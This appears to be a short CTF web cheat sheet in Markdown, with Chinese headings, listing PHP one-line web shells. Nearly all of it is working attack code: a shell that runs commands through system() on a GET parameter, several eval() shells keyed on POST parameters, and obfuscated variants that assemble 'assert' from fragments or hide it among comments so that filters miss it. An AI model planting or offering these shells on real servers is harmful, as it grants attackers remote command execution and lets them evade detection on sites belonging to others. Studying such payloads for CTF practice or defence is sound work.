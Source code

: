 ```yaml
---
tags:
  - ctf
  - web
create_time: 2024-01-18 15:29
modified_time: 2024-05-20 09:56
status: complete
---
```

## PHP

```PHP
<pre>
<body>
<? @system($_GET["cc"]); ?>
</body>
</pre>
```

//可执行命令一句话

### 普通一句话

```php
<?php eval($_POST[cc123]) ?>

<?php @eval($_POST['cc123']);?>

<?php eval($_POST[1]);?>

<?=eval($_POST[1]);?>

<script language="php">eval($_POST[1]);</script>   //php5
```

### PHP系列

```php
<?php $a = str_replace(x,"","axsxxsxexrxxt");$a($_POST["xindong"]); ?>


<?php $lang = (string)key($_POST);$lang($_POST['xindong']);?>


<?php $k="ass"."ert"; $k(${"_PO"."ST"} ['xindong']);?>


<?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST["xindong"]);  ?>


<?php                  
@$_="s"."s"./*-/*-*/"e"./*-/*-*/"r";                  
@$_=/*-/*-*/"a"./*-/*-*/$_./*-/*-*/"t";                  
@$_/*-/*-*/($/*-/*-*/{"_P"./*-/*-*/"OS"./*-/*-*/"T"}                  
[/*-/*-*/0/*-/*-*/-/*-/*-*/2/*-/*-*/-/*-/*-*/5/*-/*-*/]);?>    密码是  -7
```
